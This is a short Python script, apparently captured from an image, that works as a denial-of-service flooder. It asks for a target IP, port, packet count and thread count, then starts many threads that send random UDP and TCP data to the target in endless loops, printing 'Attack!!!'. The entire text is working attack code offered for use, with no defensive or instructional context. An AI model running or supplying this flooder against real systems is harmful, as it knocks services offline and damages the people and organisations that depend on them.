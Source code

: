 import random
import socket
import threading
import os,sys

os.system("clear")
print("UBAH INI")
ip = str(input(" Ip:"))
port = int(input(" Port:"))
choice = str(input(" (y/n):"))
times = int(input(" Packets:"))
threads = int(input(" Threads:"))
os.system("clear")
def ddos():
	data = random._urandom(1025)
	i = random.choice(("[•]","[•]","[•]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" Attack!!!")
		except:
			print("[!] Down!!!")

def ddos2():
	data = random._urandom(180)
	i = random.choice(("[•]","[•]","[•]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" Attack!!!")
		except:
			s.close()
			print("[!] Down!!!")

def ddos3():
	data = random._urandom(16)
	i = random.choice(("[•]","[•]","[•]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" Attack!!!")
		except:
			s.close()
			print("[!] Down!!!")

for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = ddos)
		th.start()
		th = threading.Thread(target = ddos2)
		th.start()
	else:
	    th = threading.Thread(target = ddos3)
	    th.start()    
